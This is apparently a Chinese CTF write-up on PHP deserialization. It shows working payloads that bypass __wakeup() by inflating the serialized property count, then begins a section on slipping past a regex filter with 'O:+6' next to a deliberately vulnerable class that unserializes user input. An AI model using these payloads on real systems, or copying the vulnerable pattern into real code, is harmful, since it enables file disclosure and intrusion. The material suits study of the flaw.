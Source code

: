         只要满足__destruct()方法中的if条件就可以获得flag，构造payload时给对于属性赋值即可；

        然而，在反序列化调用unserialize()方法时会触发__wakeup方法，进而改变我们给$passwd属性的赋值，最终导致不满足if条件；

        因此需要避免__wakeup方法的触发，这就需要可以利用__wakeup()方法的漏洞，使序列化字符串的表示成员属性的数字大于实际的对象的成员属性数量，如下payload的构造：

```php
<?php
class HaHaHa{
    public $admin="admin";
    public $passwd="wllm";
}
 
$a=new HaHaHa();
 
$b=serialize($a);
echo "?p=".$b;
 
?>
 
//输出：
?p=O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
 
//将成员属性数量2改为3，大于实际值2即可，payload如下：
?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

##### <font style="color:rgb(79, 79, 79);">O:+6绕过正则</font>
 

```php
//简单案例
 
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
```
